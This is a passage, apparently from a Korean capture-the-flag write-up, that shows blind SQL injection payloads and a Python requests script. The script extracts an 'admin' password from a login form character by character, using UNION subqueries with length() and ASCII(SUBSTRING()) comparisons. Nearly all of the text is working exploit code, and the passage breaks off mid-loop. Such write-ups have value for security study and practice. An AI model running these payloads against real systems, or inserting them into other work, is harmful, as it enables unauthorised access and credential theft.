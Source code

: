 |

|

### 자동화 코드: find_password_length()

---

기존 자동화 코드에서 payload 수정

```python
payload= {"username": f"{username}' union select 1,2,3 from (select 1,2 as name, 3 as pw union select * from user) fxxk where name like 'admin' && length(pw) like {length} -- 1", "password": f"{password}"}
```

|

|

### 자동화 코드: find_password()

---

마찬가지로 payload 수정

```python
payload = {"username":f"{username}' union select 1,2,3 from (select 1,2 as name, 3 as pw union select * from user) xxx where name like 'admin' && ASCII(SUBSTRING(pw, {length}, 1)) like {ascii_code} -- 1", "password":f"{password}"}
```

|

|

|

## Exploit

```python
import requests

# 비밀번호 길이 찾기
def find_password_length(url, username, password):
	for length in range(0, 51): # 0부터 50까지
		payload= {"username": f"{username}' union select 1,2,3 from (select 1,2 as name, 3 as pw union select * from user) xxx where name like 'admin' && length(pw) like {length} -- 1", "password": f"{password}"}
		res = requests.post(url, data=payload)
		if "Hello" in res.text:
			return length

# 비밀번호 찾기
def find_password(url, password_length, username, password):
    string = ""
    for length in range(1, password_length+1): # 비밀번호 위치 (1부터 password_length까지)
        print(f"{length}번째 문자 탐색 중...")
        for ascii_code in range(32, 127): # 아스키 코드 32부터 126까지
            payload = {"username":f"{username}' union select 1,2,3 from (select 1,2 as name, 3 as pw union select * from user) xxx where name like 'admin' && ASCII(SUBSTRING(pw, {length}, 1)) like {ascii_code} -- 1", "password":f"{password}"}
            res = requests.post(url, data=payload)
            if "Hello" in res.text:
```